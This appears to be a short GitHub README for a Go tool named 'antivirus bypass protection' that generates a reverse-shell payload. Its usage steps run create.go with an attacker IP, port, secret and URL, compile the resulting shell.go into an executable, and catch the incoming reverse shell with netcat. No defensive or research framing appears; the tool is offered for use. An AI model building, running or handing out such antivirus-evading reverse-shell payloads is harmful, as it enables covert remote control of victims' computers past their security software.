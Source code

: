 # antivirus bypass protection 

requirements
 - golang installed

### usage

```
1 - create your payload
        go run create.go <ip> <port> <secret> <any url>
        e.g: go run create.go 1.1.1.1 443 SecRet_kira https://www.youtube.com/watch?v=Rv4VzpGCEEM
2 - in output folder you will find shell.go compile it 
    go build shell.go

3 - now you have exe file to execute run netcat 

4 - you will receive reverse shell connection 
```
<a href=""></a>
<img src="https://pbs.twimg.com/media/E84XVv3XoAAUncw?format=png&name=900x900">


<img src="https://pbs.twimg.com/media/E84X1GaWUAAJS43?format=png&name=900x900">

## twitter: <a href="https://twitter.com/kira_321k">kira_321k</a>

